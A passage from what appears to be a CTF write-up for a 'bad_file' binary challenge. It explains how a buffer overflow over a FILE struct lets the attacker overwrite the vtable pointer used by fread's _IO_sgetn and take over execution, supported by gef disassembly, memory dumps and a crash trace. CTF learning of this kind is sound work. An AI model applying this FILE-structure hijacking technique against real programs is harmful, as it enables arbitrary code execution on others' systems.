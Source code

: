 ```
0x602110: 0x0000000000000000  0x0000000000000000
0x602120: 0x0000000000000000  0x0000000000000000
0x602130: 0x0000000000000000  0x0000000000000000
0x602140: 0x0000000000000000  0x0000000000000000
0x602150: 0x0000000000000000  0x0000000000000000
0x602160: 0x0000000000000000  0x0000000000000000
```

Here is everything we can reach with out overflow (`0x160 / 8 = 44`). When `fread` is called, there is a function `_IO_sgetn` that is called on our input:

```
gef➤  disas _IO_sgetn
Dump of assembler code for function __GI__IO_sgetn:
   0x00007ffff7a88700 <+0>: mov    rax,QWORD PTR [rdi+0xd8]
   0x00007ffff7a88707 <+7>: mov    rax,QWORD PTR [rax+0x40]
   0x00007ffff7a8870b <+11>:  jmp    rax
End of assembler dump.
```

In this case the register `rdi` holds a pointer to the file struct. Here it dereferences `rdi+0xd8` (which in our case would be the value stored at `0x6020e8` which is `0x00007ffff7dd06e0`). Then the instruction pointer stored at that address `+0x40` is then moved into the `rax` register, and then executed via a jump (in our case `0x00007ffff7dd06e0 + 0x40 = 0x7ffff7dd0720`). We can see that the function which should be executed is `_IO_file_jumps`:

```
gef➤  x/i 0x00007ffff7dd06e0
   0x7ffff7dd06e0 <_IO_file_jumps>: add    BYTE PTR [rax],al
```

So we can see that we can overwrite a pointer which is dereferenced to get an instruction pointer, and then executed. We will use this to get code execution. However the pointer is at offset `0xd8`, so we have to overwrite several different pointers which could cause issues. To figure this out I just overwrote the values of pointers one by one to see if they would cause us issues. Turns out only one of them do cause issues, and it's nothing major. It's the pointer stored at offset `0xa0` (it's `0x602100` at `0x6020b0`):

```
───────────────────────────────────────────────────────────────────── stack ────
0x00007fff456d8010│+0x0000: 0x0000000000400b40  →  "Now let's send some magic to the void!!"   ← $rsp
0x00007fff456d8018│+0x0008: 0x0000000000000000
0x00007fff456d8020│+0x0010: 0x00007fff456d8090  →  0x00000000004009c0  →  <__libc_csu_init+0> push r15
0x00007fff456d8028│+0x0018: 0x0000000000400740  →  <_start+0> xor ebp, ebp
0x00007fff456d8030│+0x0020: 0x00007fff456d8170  →  0x0000000000000001
0x00007fff456d8038│+0x0028: 0x000000000040099c  →  <main+223> lea rax, [rbp-0x30]
0x00007fff456d8040│+0x0030: 0x0000000000704010  →  0x0068732f6e69622f ("/bin/sh"?)
0x00007fff456d8048│+0x0038: 0x0000000000704010  →  0x0068732f6e69622f ("/bin/sh"?)
─────────────────────────────────────────────────────────────── code:x86:64 ────
   0x7fc49f4fc4b0 <fread+80>       lock   cmpxchg DWORD PTR [r8], esi
   0x7fc49f4fc4b5 <fread+85>       jne    0x7fc49f4fc4bf <fread+95>
   0x7fc49f4fc4b7 <fread+87>       jmp    0x7fc49f4fc4d5 <fread+117>
 → 0x7fc49f4fc4b9 <fread+89>       cmpxchg DWORD PTR [r8], esi
   0x7fc49f4fc4bd <fread+93>       je     0x7fc49f4fc4d5 <fread+117>
   0x7fc49f4fc4bf <fread+95>       lea    rdi, [r8]
   0x7fc49f4fc4c2 <fread+98>       sub    rsp, 0x80
   0x7fc49f4fc4c9 <fread+105>      call   0x7fc49f589c50
   0x7fc49f4fc4ce <fread+110>      add    rsp, 0x80
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "bad_file", stopped, reason: SIGSEGV
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7fc49f4fc4b9 → fread()
[#1] 0x40099c → main()
────────────────────────────────────────────────────────────────────────────────
gef➤  p $r8
```